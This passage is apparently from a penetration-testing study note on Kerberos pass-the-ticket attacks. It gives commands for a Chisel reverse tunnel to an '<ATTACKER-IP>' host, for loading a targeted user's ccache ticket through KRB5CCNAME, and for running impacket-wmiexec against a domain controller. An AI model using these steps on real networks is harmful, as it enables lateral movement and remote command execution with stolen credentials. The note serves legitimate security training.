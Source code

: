 ```yaml
---
tags:
  - PtT
---
```

# Pass the Ticket
To execute this attack, we need to proxy traffic via `MS01` with a tool such as [[File Transfer#Chisel|Chisel]] and #proxychains and edit the `/etc/hosts` file to hardcode IP addresses of the domain and the machines we want to attack.

```shell-session
$ cat /etc/proxychains.conf

<SNIP>

[ProxyList]
socks5 127.0.0.1 1080
```

- On attack host:
```shell-session
$ sudo ./chisel server --reverse
```
- On Windows host:
```cmd-session
> chisel.exe client <ATTACKER-IP>:8080 R:socks
```
- Set the environment variable `KRB5CCNAME` with the path of targeted user's ccache file:
```shell-session
$ export KRB5CCNAME=/Path/to/krb5cc_file
```
- Finally, to use the Kerberos ticket, specify the target machine name (not IP!) and use `-k`. If prompted for a password, include `-no-pass`.
```shell-session
$ proxychains impacket-wmiexec dc01 -k
```

Once the Kerberos ticket (as `ccache`) is loaded and verified with [[klist]], we can perform
